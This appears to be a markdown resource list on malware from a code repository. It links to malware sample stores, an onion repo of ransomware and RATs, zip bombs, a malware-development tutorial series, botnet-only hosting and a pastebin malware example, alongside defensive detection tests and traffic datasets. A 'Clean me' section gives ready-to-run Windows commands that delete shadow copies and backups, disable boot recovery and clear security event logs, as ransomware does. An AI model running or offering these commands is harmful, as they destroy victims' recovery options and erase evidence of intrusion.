 Big package or Framework
========================

-	Small and highly portable detection tests : atomic-red-team https://github.com/redcanaryco/atomic-red-team
-	Malwares :
	-	[GitHub](https://malwares.github.io)
	-	[Web Site](https://malwares.github.io/)
	-	Database on [Mega](https://mega.nz/#F!IhFg2ZbI!9DgoYtpyPTPhw6b1veuTkg)
-	[Nice Repo ransomwares,RATs,Malwares,..etc](https://mqnvhg6lht7lc3nc.onion/)
-	[A list of collection of Malware](http://www.megabeets.net/fantastic-malware-and-where-to-find-them/)

Clean me ...
============

-	deletes all possible shadow copies on the system `C:\Windows\system32\cmd.exe /c c:\Windows\system32\vssadmin.exe delete shadows /all /quiet`
-	deletes all windows backup `C:\Windows\system32\cmd.exe /c wbadmin.exe delete catalog -quiet`
-	ensure that the Windows recovery console does not attempt to repair anything on the host `C:\Windows\system32\cmd.exe /c bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no`
-	deletion of the System & Security windows event log `C:\Windows\system32\cmd.exe /c wevtutil.exe cl System` and `C:\Windows\system32\cmd.exe /c wevtutil.exe cl Security`

Other
=====

-	[Build a Compiler Bomb](https://codegolf.stackexchange.com/questions/69189/build-a-compiler-bomb/69193#69193)
-	[A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/]
-	Malware Development – Welcome to the Dark Side
	-	[Part 1](https://niiconsulting.com/checkmate/2018/02/malware-development-welcome-dark-side-part-1/)
	-	[Part 2.1](https://niiconsulting.com/checkmate/2018/02/malware-development-welcome-dark-side-part-2-1/)
	-	[Part 2.2](https://niiconsulting.com/checkmate/2018/03/malware-development-welcome-dark-side-part-2-2/)
	-	[Part 3](https://niiconsulting.com/checkmate/2018/03/malware-development-welcome-dark-side-part-3/)
	-	[Part 4](https://niiconsulting.com/checkmate/2018/03/malware-development-welcome-to-the-dark-side-part-4/)

Malware analysis
================

-	The [Malware Capture Facility Project](https://mcfp.weebly.com/) is an effort from the Czech Technical University ATG Group for capturing, analyzing and publishing real and long-lived malware traffic.
-	The [Stratosphere IPS](https://www.stratosphereips.org/datasets-overview) feeds itself with models created from real malware traffic captures. By using and studying how malware behaves in reality, we ensure the models we create are accurate and our measurements of performance are real. Our sister project, Malware Capture Facility Project, is in charge of continuously monitoring the threat landscape for new emerging threats, retrieving malicious samples and running them in our facilities to capture the traffic

Hosting
=======

-	https://access.clientleaf.ru/index.php/ BotNet ONLY

Example of Malware
==================

-	https://pastebin.com/7BDV11Ah
